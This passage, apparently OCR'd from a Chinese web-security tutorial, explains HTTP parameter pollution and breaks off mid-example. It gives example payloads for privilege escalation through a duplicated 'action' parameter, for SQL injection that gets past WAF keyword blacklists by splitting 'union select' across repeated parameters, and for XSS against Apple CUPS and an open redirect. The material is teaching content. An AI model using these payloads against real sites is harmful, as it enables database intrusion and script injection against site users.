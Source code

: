 ```javascript
http://host/page.php?action=view&par=123
```

```javascript
但用户若输入par为
```

```javascript
则最终生成的链接为：123&amp;action=edit，则最终的请求则变成：
```

```javascript
http://host/page.php?action=view&par=123&amp;action=edit
```

通过重复提交action参数，会导致应用接受编辑操作而不是查看操作，实现权限的提升。

#### **2、** **绕过检测（WAF）**

1）SQL绕过1

一个常见的SQL注入payload如：

http://xxx/horse.php?id=7 union select 1,2,3，current_user

探测发现网站配置了WAF来阻止任意包含“select”或“union”等常用的SQL查询关键字，通过HPP绕过：

http://xxx/horse.php?id=0&amp;id=7%20union%20select%201,2,3,current_user

注入语句被写到第二个参数值的位置，不会被waf解析。

**2）SQL绕过2**

ModSecurity过滤器会将类似于select1,2,3 from table这类的语句归类为黑名单。但是这个web服务器在遇到为同一个参数赋值不同数值时，会采取类似谷歌的处理方式，将参数连接起来，以此来绕过黑名单。例如提交如下的URL：

http://xxx/index.aspx?page=select 1&page=2,3 from table

**3）Apple Cups的XSS**

Apple Cups是被许多UNIX系统利用的打印系统。系统对kerberos进行了黑名单过滤，通过前置一个重复参数可以触发xss：

http://xxx/?kerberos=onmouseover=alert(1)&kerberos=

这个方法可以绕过系统的验证机制，原因是这个验证系统只采纳了第二个kerberos的值，这个值为空，因此不会触发。而第一个kerberos直到被用于构建动态HTML内容前都没有被验证。最终在web站点的上下文中javascript语句被执行。

**4）URL重定向+HPP+XSS**

在点击网站的链接时，会将用户重定向到一个页面，链接为：

xxx.aspx?dest=http://whitelistedWebsite.com

这容易想到URL重定向漏洞，经过探测，发现dest参数接受的协议有http:// ftp:// http:/ javascript:/，所以尝试构造xss：

dest=javascript://alert(document.domain)

发现存在白名单限制，尝试绕过：

dest=javascript:/whitelistedWebsite.com/i;alert(document.domain

但分号；会无法解析，导致报错，最终使用HPP绕过：
